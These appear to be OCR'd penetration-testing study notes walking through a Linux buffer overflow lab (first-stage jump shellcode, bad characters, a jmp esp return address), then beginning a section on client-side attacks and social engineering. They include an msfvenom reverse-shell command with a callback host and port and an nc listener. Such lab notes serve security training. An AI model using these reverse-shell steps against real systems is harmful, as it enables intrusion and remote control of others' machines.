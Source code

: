             #locating space for our shell code
                `ESP` points at the end of our buffer and only give us 7 bytes
                    of space.`EAX` points to the beginning of the buffer.
                    However, our buffer start is the required `setup sound` cmd
                Copy `EAX` and in top left windows > rc > go to expression
                > `0x<paste EAX>` shows that `setup sound` translates as:
                    se(\x73\x65): `JAE`(jump short if above or equal) which jumps to an
                        address in our controled buffer.
                    tu(\x74\x65): `JE`(jump short if equal) to another address in
                        buffer
                    so these could work but there is an easyer way
                `1st stage shell code` at the `ESP` (7 bytes)(\x0C) will allow us to jump
                    to after `sound setup` and run `reverse shell code`
                need to increase the size of the `EAX` by 12 bytes
                    for `setup sound` becuase we need to keep it in place.
                    we need an `ADD` assembly instruction and then to
                    jump to the memory pointer of `EAX` with `JMP`
                `msf-nasm_shell`
                    `add eax,12` which is `83C00C`
                    `jump eax`  which is `FFE0`
                    both are 5 bytes in total so we have room
                    *do NOT put in backwards, thats addresses only
                [lin_first_stage](lin_first_stage) we see that if we follow
                    the `ESP` in dump, that our first_stage is there
                    added first_stage of 5bytes and then 2 nops at the end
            #checking for bad chars
                after checking we find `\x00\x20`
            #finding a return address
                in `edb` > Plugins > OpcodeSearcher > select the region
                    for our app. right side > `ESP` -> `EIP` and look for
                    `jump esp`
                Plugins > breakpoint manager > add the `jump esp` address
                    `0x08134596` set our `EIP` to that in lin_first_stage 
                    and run
                edb will stop at our break point of `jmp esp` single step
                    with `F7` and should land at our first stage shell code
                    which sets the `EAX` to `EAX+12` (right after setup sound) and
                    and `F7` again jumps to `EAX+12` the begining of our `A`s
            #getting a shell
                drop our reverse shell at the start of our `A`s
                `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.203 LPORT=443 -b "\x00\x20" -f py -v shellcode`
                    *if a random letter like `b` shows up in your code remove them*
                [lin_reverse_shell](lin_reverse_shell)
                    placing the shellcode close to the start of our buffer
                    means we need to padd it with `A`s so we minus it and the
                    nops from our last padding to maintain the orgianl offset
                    to overwrite the `EIP`
                set up nc: `nc -lvnp 443` and send exploit. we get a connection
                    on `nc` but it is stuck.This is becuase `edb` pauses the
                    program. simply un-pause and you can run a command. you
                    need to press ok and unpause on each command because the
                    debugger catches the child process of the shell. To test
                    simply restart the app without the debugger and run
                    explolit. You got a shell!
                `id` will give you uid, groups, gid    
#client side attacks
    client attacks target weaknesses in client software and not the server
    #active client info gathering
        use social engineering to get a person to help us in a client side attack 
            such as opening malware hidden in something else.
        #client fingerprinting
            we need to know what versions of what are on tgt. If they will
                come to our malicious site, we can use fingerprints to gather